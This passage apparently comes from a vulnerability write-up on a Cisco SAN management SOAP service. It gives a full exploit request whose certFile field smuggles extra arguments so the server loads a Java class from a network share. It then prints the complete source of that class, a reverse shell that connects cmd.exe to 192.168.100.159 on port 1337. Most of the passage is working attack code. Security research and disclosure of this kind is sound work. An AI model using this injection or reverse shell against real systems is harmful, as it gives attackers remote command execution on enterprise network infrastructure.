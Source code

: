 Now we can trigger the remote class load via the command injection and gain remote code execution!

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ep="http://ep.san.jaxws.dcbu.cisco.com/">
    <SOAP-ENV:Header xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
        <m:token xmlns:m="http://ep.jaxws.dcbu.cisco.com/">xWPX64FmO4F4AfCSjjV1U5kwTMgS3OTgkjf8829Bi+o=</m:token>
    </SOAP-ENV:Header>
   <soapenv:Body>
      <ep:importTS>
         <certFile>" -providerclass Si -providerpath "\\vmware-host\Shared Folders\tools</certFile>
         <serverIPAddress></serverIPAddress>
      </ep:importTS>
   </soapenv:Body>
</soapenv:Envelope>
```

In the below example, `Si.java` was a reverse shell.

```java
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

public class Si {
    static{
        try {
            String host = "192.168.100.159";
            int port = 1337;
            String cmd = "cmd.exe";
            Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start();
            Socket s = new Socket(host,port);
            InputStream pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream();
            OutputStream po = p.getOutputStream(), so = s.getOutputStream();
            while(!s.isClosed()){
                while(pi.available()>0){
                    so.write(pi.read());
                }
                while(pe.available()>0){
                    so.write(pe.read());
                }
                while(si.available()>0){
                    po.write(si.read());
                }
                so.flush();
                po.flush();
                Thread.sleep(50);
                try {
                    p.exitValue();
                    break;
                }catch (Exception e){}
            }
            p.destroy();
            s.close();
        }catch (IOException | InterruptedException e){ }
    }
}
```
